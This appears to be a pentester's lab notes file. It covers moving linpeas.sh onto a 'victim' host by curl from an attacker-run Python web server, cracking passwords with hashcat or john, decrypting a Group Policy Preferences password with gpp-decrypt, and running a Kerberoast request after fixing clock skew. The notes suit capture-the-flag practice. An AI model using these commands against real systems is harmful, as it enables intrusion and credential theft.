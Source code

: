 # How to transfer file from your machine to victim's?

1. Open http server using Python
```
python3 -m http.server 80
```
2. On victim's machine type:
```
curl -O http://10.10.14.24/linpeas.sh
```

# About finding passwords for users

- Use every wordlist and johntheripper/hashcat and try to find password

# About Group Policy Preferences

Group Policy Preferences (GPP) was introduced in Windows Server 2008, and among many other features,
allowed administrators to modify users and groups across their network.
An example use case is where a company’s gold image had a weak local administrator password, and
administrators wanted to retrospectively set it to something stronger. The defined password was AES-256
encrypted and stored in Groups.xml . However, at some point in 2012, Microsoft published the AES key on
MSDN, meaning that passwords set using GPP are now trivial to crack and considered low-hanging fruit.

![image](https://github.com/user-attachments/assets/ab5fcc0b-38ff-4d15-a5d7-674722884bd5)

### Example

We extract the encrypted password form the Groups.xml file and decrypt it using gpp-decrypt .

```
gpp-decrypt
edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```

# Fixing "Kerberos SessionError"

![image](https://github.com/user-attachments/assets/4585b5a6-d0dc-4cd3-8be0-4c1bebf6f18d)

1. If you are not currently running as the root user, switch to the root user by running the “su” command
2. Run “timedatectl set-ntp off” to disable the Network Time Protocol from auto-updating
3. Run “rdate -n [IP of Target]” to match your date and time with the date and time of the your target machine
4. Run your Kerberoast command (which should be GetUserSPNs.py [Domain Name].local/[username]:[password] -dc-ip [Domain Controller IP] -request)

# Fixing pywhisker

```
pip uninstall pyOpenSSL asgiref
sudo apt-get remove python3-asgiref
pip install asgiref==3.7.2
pip install pyOpenSSL==22.1.0 mitmproxy-rs==0.5.1 urwid-mitmproxy==2.1.1
pip install --upgrade impacket
```
